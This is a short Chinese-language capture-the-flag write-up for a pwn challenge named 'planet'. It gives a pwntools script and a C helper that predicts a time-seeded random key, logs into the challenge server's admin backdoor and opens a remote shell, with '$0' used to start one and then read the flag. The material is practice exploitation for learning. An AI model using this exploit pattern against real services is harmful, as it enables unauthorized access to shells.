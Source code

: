 # W5 planet

## 文件分析

下载`planet`, NX on, PIE on, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

有后门函数，虽然有随机数，但以时间为种子，直接模拟攻击；
命令限长，就用"$0"打开shell

官方wp有对链表的利用，不管了，能打通就是好exp

## EXPLOIT

```python
from pwn import *
def payload(delay:int):
    probe = process(['seedprobe2', str(delay)])
    key = probe.recvline(False)
    print(f'key to shell is: {key.decode()}')
    probe.close()

    sh = remote('node4.buuoj.cn', 25321)
    sh.sendlineafter(b':', b'secret_passwd_anti_bad_guys')
    sh.sendlineafter(b'>', b'Admin') # enter Admin func
    sh.sendlineafter(b'>', key)      # send calced key
    sh.interactive()
    #$0
    #cat flag

payload(5)
```

```c
// seedprobe2.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#define STRLEN 31

int main(int argc, char **argv) {
    if (argc == 1) {
        puts("no time input!");
        return 0;
    } 
    int delay = -1;
    delay = atoi(argv[1]);
    if (delay == -1) {
        puts("invalid time input");
        return 0;
    }
    time_t init = time(NULL) + delay;
    srand(init);
    for (int i = 0; i < 55; i++)
        rand();
    char ret[STRLEN];
    for (int i = 0; i < STRLEN - 1; i++) 
        ret[i] = "abcdefghijklmnopqrstuvwxyz"[rand() % 26];
    ret[STRLEN - 1] = '\0';
    puts(ret);
    return 0;
}
```

## 第一次一血！

<img src="../assets/1stBlood.jpg" width="40%" title="好耶">

Done.
